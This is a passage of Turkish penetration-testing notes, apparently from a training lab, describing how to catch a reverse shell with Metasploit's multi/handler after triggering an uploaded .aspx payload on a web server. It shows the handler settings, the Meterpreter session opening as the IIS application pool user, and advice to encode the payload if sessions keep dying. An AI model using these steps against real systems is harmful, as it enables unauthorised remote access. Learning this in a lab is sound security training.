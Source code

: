 ```shell-session
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST 10.10.14.5

LHOST => 10.10.14.5


msf6 exploit(multi/handler) > set LPORT 1337

LPORT => 1337


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:1337 
```

## **Payload'un Çalıştırılması**  

Şimdi web servisindeki `.aspx` payload'unu tetikleyebiliriz. Bunu yaptığımızda sayfada görsel olarak hiçbir şey yüklenmeyecektir, ancak `multi/handler` modülümüze baktığımızda bir bağlantı almış olacağız. `.aspx` dosyamızın HTML içermediğinden emin olmalıyız, böylece yalnızca boş bir web sayfası göreceğiz. Ancak, payload yine de arka planda çalıştırılır.

![Pasted image 20241028002747.png](/img/user/resimler/Pasted%20image%2020241028002747.png)

#### MSF - Meterpreter Shell

```shell-session
<...SNIP...>
[*] Started reverse TCP handler on 10.10.14.5:1337 

[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000


meterpreter > getuid

Server username: IIS APPPOOL\Web


meterpreter > 

[*] 10.10.10.5 - Meterpreter session 1 closed.  Reason: Died
```

Meterpreter oturumu çok sık ölüyorsa, çalışma zamanı sırasında hataları önlemek için onu kodlamayı düşünebiliriz. Uygun herhangi bir kodlayıcıyı seçebiliriz ve sonuçta ne olursa olsun başarı şansımızı artıracaktır.
